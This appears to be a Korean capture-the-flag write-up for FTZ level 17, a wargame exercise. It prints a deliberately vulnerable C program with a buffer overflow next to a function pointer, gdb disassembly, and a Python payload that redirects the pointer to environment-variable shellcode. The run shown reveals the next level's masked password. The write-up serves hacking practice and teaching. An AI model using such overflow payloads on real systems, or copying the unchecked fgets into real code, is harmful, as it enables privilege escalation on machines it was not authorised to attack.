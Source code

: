 # **FTZ LEVEL17**

## <img src="http://freevector.co/wp-content/uploads/2014/07/61901-door-key.png" width="25"> **Keys**
>attackme.c
```c
#include <stdio.h>
 
void printit() {
  printf("Hello there!\n");
}
 
main()
{ int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  setreuid(3098,3098);
  call();
}
```
FTZ 16와 달리 `shell()`가 없으므로 직접 `shellcode` 를 환경변수에 올려서 `call()`를 호출하는 부분을 `shellcode` 의 시작 주소로 바꾸겠다. ( [환경변수 이용하기](https://github.com/papico0306/SystemHackingPractice/blob/master/FTZ_Solve/ftz11_solve.md "환경변수 이용하기") )

환경변수의 주소를 구하고
```
[level17@ftz level17]$ /tmp/ge EGG
EGG=0xbffffc3d
```
gdb로 분석하면
```
(gdb) disas main
Dump of assembler code for function main:
0x080484a8 <main+0>:	push   ebp
0x080484a9 <main+1>:	mov    ebp,esp
0x080484ab <main+3>:	sub    esp,0x38
0x080484ae <main+6>:	mov    DWORD PTR [ebp-16],0x8048490
0x080484b5 <main+13>:	sub    esp,0x4
0x080484b8 <main+16>:	push   ds:0x804967c
0x080484be <main+22>:	push   0x30
0x080484c0 <main+24>:	lea    eax,[ebp-56]
0x080484c3 <main+27>:	push   eax
0x080484c4 <main+28>:	call   0x8048350 <fgets>
0x080484c9 <main+33>:	add    esp,0x10
0x080484cc <main+36>:	sub    esp,0x8
0x080484cf <main+39>:	push   0xc1a
0x080484d4 <main+44>:	push   0xc1a
0x080484d9 <main+49>:	call   0x8048380 <setreuid>
0x080484de <main+54>:	add    esp,0x10
0x080484e1 <main+57>:	mov    eax,DWORD PTR [ebp-16]
0x080484e4 <main+60>:	call   eax
0x080484e6 <main+62>:	leave  
0x080484e7 <main+63>:	ret    
0x080484e8 <main+64>:	nop    
0x080484e9 <main+65>:	nop    
0x080484ea <main+66>:	nop    
0x080484eb <main+67>:	nop    
0x080484ec <main+68>:	nop    
0x080484ed <main+69>:	nop    
0x080484ee <main+70>:	nop    
0x080484ef <main+71>:	nop    
End of assembler dump.
```
`printit()` 의 주소가 `ebp-16` 에 들어가고, `buf` 는 `ebp-56` 에 들어간다. 따라서 환경 변수의 주소를 `ebp-16` 에 넣어 주면 쉽게 풀릴 것 같다.
## <img src="https://pngimg.com/uploads/road/road_PNG24.png" width="25"> **Payload**
>메모리 구조
```
| buf[20] | dummy[20] | &(printit()) | dummy[12] | sfp | ret
```

>Payload
```
 (python -c "print 'A'*40+'\x3d\xfc\xff\xbf'";cat) | ./attackme 
```

## <img src="https://maxcdn.icons8.com/windows8/PNG/512/Military/sword-512.png" width="25"> **Attack**
```
[level17@ftz level17]$ (python -c "print 'A'*40+'\x3d\xfc\xff\xbf'";cat) | ./attackme 
my-pass
TERM environment variable not set.

Level18 Password is "~~~~~~~~~".
```